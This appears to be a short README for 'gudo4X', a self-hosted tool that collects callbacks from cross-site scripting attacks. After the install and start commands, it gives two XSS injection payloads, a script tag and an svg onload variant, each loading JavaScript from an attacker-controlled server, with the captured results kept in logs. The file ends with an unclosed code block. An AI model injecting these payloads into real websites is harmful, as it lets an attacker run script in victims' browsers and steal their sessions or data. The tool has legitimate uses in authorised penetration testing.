 ## gudo4X - guide dog for xss

### usage
* install flask and magic

```bash
sudo apt update && sudo apt install -y python3-flask python3-magic
```

* (for https) put cert files in project directory (cert.pem, key.pem)

* run:

```bash
sudo bash start.sh start &
```

* send the script in a xss:
```html
'"><script/src=https://yourserver/a.js></script>
```

```html
'"><svg/onload=body.appendChild(document.createElement`script`).src="https://yourserver/a.js">
```

* see the log directory

* clean logs
```bash
sudo bash run.sh clean
bash

